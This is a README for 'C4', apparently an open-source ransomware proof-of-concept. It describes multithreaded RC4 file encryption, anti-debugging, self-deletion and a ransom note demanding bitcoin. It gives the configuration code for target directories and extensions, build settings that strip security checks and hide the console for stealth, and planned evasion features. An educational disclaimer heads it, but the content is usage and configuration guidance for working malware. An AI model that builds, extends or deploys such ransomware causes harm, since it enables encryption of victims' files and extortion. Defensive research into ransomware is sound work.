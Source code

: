 # C4

#### Lightweight Ransomware Simulator

> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Drops a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Self-deletes the executable after finishing.
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
   ///////////////////
  // CONFIGURATION //
 ///////////////////

TEXT_SECTION BOOL g_EncryptMode         =       TRUE;     // TRUE = Encrypt, FALSE = Decrypt

TEXT_SECTION BOOL g_RansomMode          =       TRUE;     // TRUE = Drop a text file (g_Note) with payment instructions to the current directory

TEXT_SECTION BOOL g_SelfDelete          =       TRUE;     // TRUE = Binary will self-delete

TEXT_SECTION BOOL g_DebuggerEvasion     =       TRUE;     // TRUE = Program exits when debugger (such as x64dbg, OllyDbg, WinDbg) is attached 

TEXT_SECTION BOOL g_Verbose             =       TRUE;     // TRUE = Print files, directories, errors, and execution time to the console


LPCWSTR g_Directories[] = { 
    L"C:\\Users\\Public", 
    NULL
}; 


LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {    
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", L".conf",
    L".cfg", L".reg", L".dat", L".bat", L".cmd"
};


LPCSTR g_Note = { ""
//    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
//    "This is not a joke. Want your data restored?\r\n"
//    "Send 0.5 BTC to the address below:\r\n"
//   "1MockBTCAddrxxxxxxxxxxxxxxxxxx\r\n"
//    "You have 48 hours.\r\n"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)
   - **C/C++ → Code Generation → Basic Runtime Checks:** Default  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest File → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem when using verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection
